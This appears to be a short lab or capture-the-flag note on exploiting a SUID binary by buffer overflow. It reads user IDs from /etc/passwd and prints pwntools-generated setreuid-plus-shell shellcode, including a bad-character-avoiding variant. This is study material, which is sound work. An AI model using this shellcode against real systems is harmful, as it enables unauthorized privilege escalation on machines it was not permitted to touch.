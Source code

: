 
As what we want to exploit is the executables suid permission we need to set the uid in the shellcode we run. 

[[../../../Tools n Info/27 - asm, Buffer Overflow, debug/Buffer Overflow/11 - SUID binaries|11 - SUID binaries]]

For this we need the users uid from /etc/passwd:
```sh
...
reynard:x:1000:1000:Reynard,,,:/home/reynard:/bin/bash
anansi:x:1001:1001:Anansi,,,:/home/anansi:/bin/bash
puck:x:1002:1002:Puck,,,:/home/puck:/bin/bash
```

We will use pwntools shellcraft functionality to get the code we need:
```sh
┌──(kali㉿kali)-[~/bof]
└─$ pwn shellcraft --format d amd64.linux.setreuid 1001 + amd64.linux.sh
\x31\xff\x66\xbf\xe9\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05
```

This gives us the shellcode to use later.

`pwn shellcraft --format d --avoid "\x00\x46" amd64.linux.setreuid 1001 + amd64.linux.sh`

I'm going pwntools on this one instead - great opportunity to learn